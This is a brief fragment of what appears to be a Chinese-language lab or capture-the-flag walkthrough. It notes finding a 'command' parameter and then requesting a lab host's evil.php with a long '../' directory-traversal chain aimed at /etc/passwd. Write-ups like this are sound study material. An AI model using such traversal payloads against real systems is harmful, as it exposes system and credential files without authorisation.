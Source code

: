 ![image-20250325135636375](assets/image-20250325135636375.png)

得到参数：command



#### 访问http://192.168.1.6/secret/evil.php?command=../../../../../../../../../../../../../etc/passw

![image-20250325135715132](assets/image-20250325135715132.png)
